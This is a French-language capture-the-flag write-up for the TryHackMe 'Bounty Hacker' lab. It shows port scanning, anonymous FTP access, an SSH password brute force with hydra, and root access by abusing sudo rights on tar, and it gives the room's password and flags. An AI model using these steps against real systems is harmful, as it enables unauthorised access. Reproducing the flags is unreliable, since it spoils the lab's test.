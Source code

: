 # Bounty Hacker #
## Task 1 Living up to the title. ##

**Deploy the machine.**
Cliquez sur Start Machine.  

**Find open ports on the machine**
```bash
tim@kali:~/Bureau/tryhackme/write-up$ sudo sh -c "echo '10.10.226.135 bountyhacker.thm' >> /etc/hosts"
[sudo] Mot de passe de tim : 

tim@kali:~/Bureau/tryhackme/write-up$ sudo nmap -A bountyhacker.thm
Starting Nmap 7.91 ( https://nmap.org ) at 2021-07-30 20:56 CEST
Nmap scan report for bountyhacker.thm (10.10.226.135)
Host is up (0.033s latency).
Not shown: 967 filtered ports, 30 closed ports
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: TIMEOUT
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.9.228.66
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 3
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 dc:f8:df:a7:a6:00:6d:18:b0:70:2b:a5:aa:a6:14:3e (RSA)
|   256 ec:c0:f2:d9:1e:6f:48:7d:38:9a:e3:bb:08:c4:0c:c9 (ECDSA)
|_  256 a4:1a:15:a5:d4:b1:cf:8f:16:50:3a:7d:d0:d8:13:c2 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
Aggressive OS guesses: HP P2000 G3 NAS device (91%), Linux 2.6.32 (90%), Linux 2.6.32 - 3.1 (90%), Ubiquiti AirMax NanoStation WAP (Linux 2.6.32) (90%), Linux 3.7 (90%), Linux 5.1 (90%), Linux 5.4 (90%), Linux 2.6.32 - 3.13 (89%), Linux 3.0 - 3.2 (89%), Infomir MAG-250 set-top box (89%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 20/tcp)
HOP RTT      ADDRESS
1   33.49 ms 10.9.0.1
2   33.71 ms bountyhacker.thm (10.10.226.135)

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 46.41 seconds

```

Les informations de nmap nous montre plusieurs services :   
Le service FTP sur le port 21, le scan nous montre que le mode anonymous fonctionne.   
Le service SSH sur le port 22.   
Le service HTTP sur le port 80.   

```bash
tim@kali:~/Bureau/tryhackme/write-up$ ftp bountyhacker.thm
Connected to bountyhacker.thm.
220 (vsFTPd 3.0.3)
Name (bountyhacker.thm:tim): anonymous
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> 
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-rw-rw-r--    1 ftp      ftp           418 Jun 07  2020 locks.txt
-rw-rw-r--    1 ftp      ftp            68 Jun 07  2020 task.txt
226 Directory send OK.
ftp> get locks.txt
local: locks.txt remote: locks.txt
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for locks.txt (418 bytes).
226 Transfer complete.
418 bytes received in 0.06 secs (6.6576 kB/s)
ftp> get task.txt
local: task.txt remote: task.txt
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for task.txt (68 bytes).
226 Transfer complete.
68 bytes received in 0.07 secs (0.9703 kB/s)
ftp> exit
221 Goodbye.

```

Who wrote the task list?   

```bash
tim@kali:~/Bureau/tryhackme/write-up$ cat task.txt 
1.) Protect Vicious.
2.) Plan for Red Eye pickup on the moon.

-lin
```

Dans la fichier task.txt on a le nom du rédacteur.  
Réponse : lin  


```bash
tim@kali:~/Bureau/tryhackme/write-up$ cat locks.txt
rEddrAGON
ReDdr4g0nSynd!cat3
Dr@gOn$yn9icat3
R3DDr46ONSYndIC@Te
ReddRA60N
R3dDrag0nSynd1c4te
dRa6oN5YNDiCATE
ReDDR4g0n5ynDIc4te
R3Dr4gOn2044
RedDr4gonSynd1cat3
R3dDRaG0Nsynd1c@T3
Synd1c4teDr@g0n
reddRAg0N
REddRaG0N5yNdIc47e
Dra6oN$yndIC@t3
4L1mi6H71StHeB357
rEDdragOn$ynd1c473
DrAgoN5ynD1cATE
ReDdrag0n$ynd1cate
Dr@gOn$yND1C4Te
RedDr@gonSyn9ic47e
REd$yNdIc47e
dr@goN5YNd1c@73
rEDdrAGOnSyNDiCat3
r3ddr@g0N
ReDSynd1ca7e
```

Le deuxième fichier est une liste de mot de passe.   

**What service can you bruteforce with the text file found?**

Le service ssh peut être brute forcé.   

**What is the users password?**

```bash
tim@kali:~/Bureau/tryhackme/write-up$ hydra -l lin -P ./locks.txt ssh://bountyhacker.thm -t 4
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-07-30 21:12:44
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 4 tasks per 1 server, overall 4 tasks, 26 login tries (l:1/p:26), ~7 tries per task
[DATA] attacking ssh://bountyhacker.thm:22/
[22][ssh] host: bountyhacker.thm   login: lin   password: RedDr4gonSynd1cat3
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2021-07-30 21:13:01
```

Avec hydra on trouve le bon mot de passe.   
La réponse est : RedDr4gonSynd1cat3  

**user.txt**

```bash
tim@kali:~/Bureau/tryhackme/write-up$ ssh lin@bountyhacker.thm
lin@bountyhacker.thm's password: 
Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.15.0-101-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

83 packages can be updated.
0 updates are security updates.

Last login: Sun Jun  7 22:23:41 2020 from 192.168.0.14
lin@bountyhacker:~/Desktop$ cat user.txt
THM{CR1M3_SyNd1C4T3}

```
Une fois connecté on on lit le flag.   
La réponse est : THM{CR1M3_SyNd1C4T3}    

**root.txt**

```bash
lin@bountyhacker:~/Desktop$ sudo -l
[sudo] password for lin: 
Matching Defaults entries for lin on bountyhacker:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User lin may run the following commands on bountyhacker:
    (root) /bin/tar
```

La configuration de sudo nous permet d'utiliser tar sans mot de passe.   

```bash
lin@bountyhacker:~/Desktop$ sudo /bin/tar -cvf reponse.tar /root/root.txt 
/bin/tar: Removing leading `/' from member names
/root/root.txt

lin@bountyhacker:~/Desktop$ tar -xvf reponse.tar 
root/root.txt

lin@bountyhacker:~/Desktop$ cat ./root/root.txt 
THM{80UN7Y_h4cK3r}
```

Avec tar on créée une archive qui contient root.txt.    
On récupère le fichier root.txt.   
On le lit.   

La réponse est : THM{80UN7Y_h4cK3r}     